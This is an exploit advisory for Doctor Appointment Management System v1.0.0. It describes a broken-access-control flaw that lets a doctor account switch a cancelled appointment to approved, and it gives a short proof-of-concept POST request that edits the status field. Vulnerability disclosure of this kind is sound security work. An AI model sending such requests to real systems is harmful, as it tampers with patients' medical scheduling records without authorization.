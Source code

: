 # Exploit Title: Doctor Appointment Management System - V 1.0.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/doctor-appointment-management-system-using-php-and-mysql/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.0.0
## Exploit Description:
## Doctor Appointment Management System - V 1.0.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update the appointment status from cancelled to approved that can not modify in UI.

## ---------------------------------POC-----------------------------
```
POST /dams/doctor/view-appointment-detail.php?editid=8&&aptid=154553066 HTTP/1.1
...

remark=hello&status=Approved(CHENGE HERE)&submit=
```
